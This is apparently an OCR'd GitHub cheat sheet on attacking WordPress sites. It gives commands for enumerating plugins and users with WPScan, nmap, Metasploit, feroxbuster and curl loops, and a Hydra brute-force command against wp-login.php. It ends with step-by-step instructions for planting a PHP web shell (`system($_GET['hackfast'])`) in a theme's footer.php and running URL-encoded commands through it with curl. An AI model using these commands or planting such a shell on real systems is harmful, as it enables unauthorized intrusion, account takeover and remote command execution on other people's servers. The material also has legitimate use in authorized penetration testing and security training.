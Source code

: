 ```yaml
---
legal-banner: true
---
```


### **Introduction**

WordPress is an open-source content management system (CMS) that enables users to create, manage, and modify content on a website without needing specialized technical knowledge. Originally launched in 2003 as a platform primarily for blogging, WordPress has evolved into a robust tool for building various types of websites, from simple blogs to comprehensive business sites and online stores.

### **Plugin Enumeration Techniques**

Vulnerable plugins are a primary attack vector in WordPress and represent a significant security risk.

1.  Enumerating Plugins with WPScan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ -e vp --plugins-detection aggressive`
    
2.  Identifying Plugins with a Custom Bash Script:
    
    ```bash
    for plugin in $(cat pluginlist.txt); do 
      response=$(curl -s -o /dev/null -w "%{http_code}" https://[WORDPRESS-DOMAIN]/wp-content/plugins/$plugin/)
      if [[ "$response" -eq 200 ]]; then 
        echo "Plugin found: $plugin"; 
      fi; 
    done
    ```
    
3.  Detecting Plugins with Nmap Scripts:  
    `nmap -sV --script http-wordpress-plugins https://[WORDPRESS-DOMAIN]/`
    
4.  Scanning Plugins with Metasploit:  
    `auxiliary/scanner/http/wordpress_plugins`
    
5.  Brute Forcing Plugin Paths with Feroxbuster:  
    `feroxbuster -u https://[WORDPRESS-DOMAIN]/wp-content/plugins -w plugins.txt`
    

### **User Enumeration Techniques**

1.  Enumerating Users with a Bash Script:
    
    ```bash
    for i in {1..100}; do 
       curl -s -L -i https://[WORDPRESS-DOMAIN]/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; 
    done
    ```
    
2.  Bypassing Restrictions for User Enumeration:  
    `http://[WORDPRESS-DOMAIN]/?x&author=1`
    
3.  Brut-forcing Usernames with Hydra:  
    `hydra -L userlist.txt -p test "https://[WORDPRESS-DOMAIN]/" http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`
    
4.  Scanning Users with WPScan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ --enumerate u`
    
5.  Enumerating Users with Metasploit:  
    `use auxiliary/scanner/http/wordpress_enum_users`
    

### **WPScan Commands**

1.  Performing a Comprehensive Website Scan:  
    `wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://[WORDPRESS-DOMAIN]/ --plugins-detection aggressive --api-token [API-TOKEN] --passwords /usr/share/seclists/Passwords/probable-v2-top1575.txt`
    
2.  Conducting a Detailed Vulnerability Scan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log`
    

### **Injecting a Shell into a WordPress Theme**

To establish a reverse shell through a WordPress theme, you modify theme files to execute arbitrary system commands. This can be done by adding PHP code to template files like `404.php` or `footer.php`. Follow these detailed steps to implement and use a reverse shell:

1.  Choose a template file within the WordPress theme that is accessed frequently. For example, `footer.php` is included on every page, making it a good place.
    
2.  Insert the following PHP code at the top of the file:  
    `<?php system($_GET['hackfast']); ?>`
    
3.  Replace the original file with your modified version on your WordPress server. Make sure you back up the original file first in case you need to restore it later.
    
4.  To execute commands, Access the modified file through a browser or use a command-line tool like curl:  
    `curl -s 'https://[WORDPRESS-DOMAIN]/path/to/modified/template?hackfast=[URL_ENCODED_COMMAND]'`
    
5.  URL encode your commands to ensure they are interpreted correctly by the server. For instance, spaces are represented as `%20` and pipes `|` as `%7C`.
    
6.  Here an example of encoding and executing the command `id | grep uid | cut -f4 -d">"`:  
    `curl -s https://[WORDPRESS-DOMAIN]/path/to/modified/template?hackfast=id%20%7C%20grep%20uid%20%7C%20cut%20-f4%20-d%22%3E%22`
    